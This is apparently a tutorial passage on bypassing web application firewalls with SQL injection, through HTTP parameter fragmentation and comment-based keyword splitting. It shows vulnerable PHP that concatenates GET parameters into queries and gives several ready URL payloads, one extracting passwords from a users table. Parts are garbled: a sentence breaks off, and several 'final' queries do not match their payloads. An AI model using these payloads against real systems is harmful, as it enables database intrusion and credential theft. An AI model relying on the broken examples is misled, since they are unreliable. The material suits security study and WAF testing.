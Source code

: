 ### Splitting the HTTP Parameter
HTTP Parameter fragmentation is similar to HPP, but we don't use the same parameter over and over. In HPF, we attack web pages with multiple parameters, and the SQL query we are trying to inject is split into as many parts as the number of parameters available. An example of vulnerable code would be:
```
Query(“select * from table where a=".$_GET['a']." and b=".$_GET['b']);
```
```
Query(“select * from table where a=".$_GET['a'].” and b=".$_GET['b'].” limit
```
As you can see, this page generates a query with two parameters, a and b, and sends both to the server. By providing:

We interpret all the queries below after they are injected, and this request does not allow anyone to perform the attack, because we can see that in the vulnerable code it has the AND operator, so it needs both parameters.

To use the code like this, we can change our previous query like this:
```
/?a=1+union/*&b=*/select+1,2
```
Here you can see that we are splitting the query in both parameters so the code is True since both parameters are present and we add the SQL comment in the right places so the parameters are interpreted at the end, and the query will be combined into one piece. The final query from the first vulnerable code would be:
```
select * from table where a=1 union/* and b=*/select 1,2
```
Another example with more than two parameters would be:
```
/?a=1+union/*&b=*/select+1,password/*&c=*/from+users-
```
The same is true here, for three-part fragmentation, because we have three parameters. In this case the final SQL parameter would be:
```
select * from table where a=1 union/* and b=*/select 1,pass/*limit */from users
```

We talked about normalization many times in the previous examples without really mentioning it. Normalization is the process of adding the comments and other symbols that the WAF extracts into the keywords that the WAF also extracts, so the end result will be our desired query that we want executed in the database. This is a really good WAF bypass method, but we need to know some of the filters the WAF uses in the attack to be successful.

In the example we saw earlier, due to filtering from WAF (/? A = 1 + union + select + 1,2 /*), which does not allow anyone to attack, we can add the following;
```
/?a=1/*union*/union/*select*/select+1.2/*
```
If there is a corresponding vulnerability here in the WAF, this request will be successfully executed on the server. Once processed by the WAF, the request will become:
```
?a=1/*uniX on*/union/*sel X ect*/select+1.2/*
```
This example will work if the dangerous traffic is cleared by the WAF, not if the entire request or source of the attack is blocked. Similarly, the following request does not allow anyone to perform this query:
```
/?id=1+union+select+1,2,3/*
```
But if we change it to something like this and it's vulnerable to WAF normalization techniques:
```
/?id=1+un/**/ion+sel/**/ect+1,2,3-
```
This query will be executed entirely in the SQL database and will look something like this:
```
SELECT * from table where id =1 union select 1,2,3-
```